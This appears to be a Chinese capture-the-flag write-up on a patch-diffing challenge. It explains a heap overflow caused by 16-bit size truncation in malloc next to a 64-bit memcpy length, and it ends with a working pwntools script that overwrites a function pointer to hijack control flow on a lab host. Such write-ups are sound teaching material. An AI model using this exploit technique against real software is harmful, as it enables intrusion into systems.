

# 系统层漏洞利用与逆向分析-安全补丁对比分析-G4 WriteUp



比较并分析之后，定位到v1地址0x0040128F处的函数（部分参数已重命名）：

```c
__int64 __fastcall sub_40128F(unsigned __int16 *buff, unsigned __int64 length)
{
  unsigned __int16 buff_0; // r12
  unsigned __int16 buff_1; // r14
  unsigned __int16 size; // di
  void *dest; // r15
  void (**exec_ptr)(void); // r13
  size_t n; // rdx

  if ( length <= 3 )
  {
    puts("too short");
    return 0xFFFFFFFFLL;
  }
  else
  {
    buff_0 = *buff;
    buff_1 = buff[1];
    size = buff_1 * *buff;
    if ( !size )
      size = 1;
    dest = malloc(size);
    if ( dest )
    {
      exec_ptr = (void (**)(void))malloc(0x40u);
      if ( exec_ptr )
      {
        *exec_ptr = (void (*)(void))puts_w;
        n = buff_1 * (unsigned __int64)buff_0;
        if ( length - 4 <= n )
          n = length - 4;
        memcpy(dest, buff + 2, n);
        (*exec_ptr)();
        free(dest);
        free(exec_ptr);
        return 0;
      }
      else
      {
        free(dest);
        puts("oom");
        return 0xFFFFFFFFLL;
      }
    }
    else
    {
      puts("oom");
      return 0xFFFFFFFFLL;
    }
  }
}
```

此处存在堆缓冲区漏洞：在分配内存时，`malloc`使用了16位的`size`作为参数，而在`memcpy`时使用了64位的`n`，若计算结果溢出16位，则会导致`memcpy`拷贝的长度大于`malloc`分配的内存大小，从而发生堆缓冲区溢出。

构造payload的逻辑是：`size = buff_1 * buff_0`，其中`buff_0`和`buff_1`分别是前两个16位的输入值。为了触发溢出，我们需要选择合适的`buff_0`和`buff_1`，使得它们的乘积超过65535（即16位的最大值），从而导致溢出，覆盖`exec_ptr`指针，劫持控制流。

另外，在64位系统中，`malloc`最小chunk大小为0x20（32字节）。

## 代码

```python
from pwn import *

r = remote("172.17.0.13", 14669)

# v3 = 3, v4 = 21846
# 3 * 21846 = 0x10002，16 位截断后 malloc(2)
payload  = p16(3)
payload += p16(21846)
payload += b"A" * 0x20
payload += p64(0x4013A2)

r.send(payload)
# EOF
r.shutdown("send")

print(r.recvall().decode())
```